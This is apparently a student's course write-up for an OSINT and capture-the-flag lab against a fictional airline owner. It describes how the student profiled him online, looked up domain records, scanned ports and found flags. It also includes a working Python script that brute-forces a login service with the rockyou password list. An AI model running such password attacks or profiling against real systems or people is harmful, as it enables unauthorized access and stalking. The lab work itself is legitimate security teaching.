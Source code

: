Writeup 2 - OSINT (Open Source Intelligence)
======

Name: *PUT YOUR NAME HERE*
Section: *PUT YOUR SECTION NUMBER HERE*

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: *PUT YOUR NAME HERE*

## Assignment 2 writeup

### Part 1 (45 pts)

1. Fred Krueger 

2. Fred is 28 years old and lives in Silver Spring, Maryland. He owns Cornerstone Airlines, and has a twitter and instagram account (@kruegster1990 for both). I found the twitter profile by a simple google search, but the instagram profile was only discoverable by searching on the instagram website, which I decided to do based on the knowledge that twitter, instagram, and facebook tend to be the most popular social media sites. Fred also has a strong interest in Pokemon.

3. The ip address for cornerstoneairlines.co is 142.93.118.186, which I found by searching the URL in the centralops domain dossier. 

4. I found a /secret directory by looking at the robots.txt file. There is a flag in the /secret page source file ({fly_th3_sk1es_w1th_u5}).

5. I found the ip address for the admin server for cornerstone airlines (142.93.117.193) by trying to access the admin page, for which the ip address isn't translated.

6. The servers associated with the site are located in New York, which I found bt entering the ip adresses (above) into shodan.io.

7. The servers run on Linux which I  discovered through using nmap.

8. There's a flag in the home page sorce file ({h1dden_fl4g_in_s0urce}). There's also a flag in the DNS records associated with the website ({dns-txt-rec0rd-ftw}), which I also found via centralops domain dossier. I'm pretty sure there is supposed to be a flag on the instagram account, but I wasn't able to find it. I don't know if it was on the picture that told me to look at it on my phone (which I did, and saw nothing that I couldn't see on the website).

### Part 2 (55 pts)

To break into the server, I wrote a brute force program that tries each password from a password dump with a particular username. To be honest I heard the correct username in class, but it certainly was one of the passwords I intended to try (admin, fkrueger, fredkrueger, kruegster1990, etc). The python code used to find the correct password is below:

~~~~
import socket
import time

host = "142.93.117.193" 
port = 1337 
wordlist = "/users/Kaan/Downloads/rockyou.txt" 

def brute_force():


	with open(wordlist) as f:
		for line in f:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((host, port))	

			while s.recv(1024) != b'Username: ': #wait for username prompt
				wait(0)	

			s.send(b'kruegster\n')

			while s.recv(1024) != b'Password: ': #wait for pw prompt
				wait(0)

			s.send(bytes(line, 'utf-8'))

			out = s.recv(1024)
			print(out)

			if out == b'Fail\n':
				s.send(b'\n') #terminate connection

			else:
				print('pw found: ')
				print(line)
				quit()

if __name__ == '__main__':
	brute_force()
  
  ~~~~
